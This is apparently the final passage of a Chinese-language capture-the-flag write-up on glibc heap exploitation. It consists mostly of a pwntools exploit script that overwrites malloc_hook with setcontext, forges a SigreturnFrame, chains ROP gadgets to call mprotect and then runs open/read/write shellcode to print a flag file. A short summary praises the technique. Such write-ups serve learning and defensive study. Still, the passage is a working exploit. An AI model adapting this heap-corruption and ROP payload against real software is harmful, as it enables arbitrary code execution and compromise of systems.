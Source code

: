 ```
    payload = p64(0x580dd+libc_base)+p64(0x21) #setcontext
    edit(0,payload*50)
    #malloc(0x90)
    payload = p64(0)*2+p64(0)+p64(heap_base+0x29d0)+p64(0) #write
    payload += p64(heap_base+0x10+0x290)+p64(heap_base+22+0x10+0x290)+p64(0)*4
    payload += p64(heap_base+0x1a90)+p64(0)+p64(0)+"\x00"*8
    payload += p64(0)*4+"\x00"*48
    payload += p64(0x1ed560+libc_base)
    edit(2,payload)
    #malloc(0x90) &amp;&amp; set malloc_hook = setcontext
    payload = p64(0)*2+p64(0)+p64(heap_base+0x29d0)+p64(0) #write
    payload += p64(heap_base+0x30+0x290)+p64(heap_base+22+0x30+0x290)+p64(0)*4
    payload += p64(heap_base+0x1fa0)+p64(0)+p64(0)+"\x00"*8
    payload += p64(0)*4+"\x00"*48
    payload += p64(0x1ed560+libc_base)
    edit(5,payload)
    #trigger &amp;&amp; rdx = QWORD PTR [rdi+0x28] = heap_base+0x29d0
    payload = p64(0)*2+p64(0)+p64(heap_base+0x29d0)+p64(0) #write
    payload += p64(heap_base+0x50+0x290)+p64(heap_base+22+0x50+0x290)+p64(0)*4
    payload += p64(heap_base+0x1fa0)+p64(0)+p64(0)+"\x00"*8
    payload += p64(0)*4+"\x00"*48
    payload += p64(0x1ed560+libc_base)
    edit(6,payload)
    # ss()
    free_hook = libc_base+libc.sym["__free_hook"]
    free_hook1 = free_hook&amp;0xfffffffffffff000
    syscall = libc_base+0x0000000000066229
    #fakeframe
    frame = SigreturnFrame()
    frame.rdi = 0
    frame.rsi = free_hook1
    frame.rdx = 0x2000
    frame.rsp = free_hook1
    frame.rip = syscall
    edit(8,str(frame))

    poprdi = 0x0000000000026b72+libc_base
    poprsi = libc_base+0x0000000000027529
    pop2rdx = libc_base+0x000000000011c1e1
    poprax = libc_base+0x000000000004a550

    #mprotect(free_hook1,0x2000,7) &amp;&amp; orw shellcode
    payload = [poprdi,free_hook1,poprsi,0x2000,pop2rdx,0x7,0]
    payload += [poprax,10,syscall,free_hook1+0x58]

    sc = shellcraft.open("flag",0)
    sc += shellcraft.read("rax",free_hook1+0x300,0x40)
    sc += shellcraft.write(1,free_hook1+0x300,0x40)
    cmd(5)

    p.send(flat(payload)+asm(sc))
    p.interactive()
if __name__ == "__main__":
    exp()
```



## 总结：

该方法我觉得作用很大，可以在功能不够用的时候或存在限制的时候实现非预期申请释放和填充堆块，用的熟练的话可以达到意想不到的效果
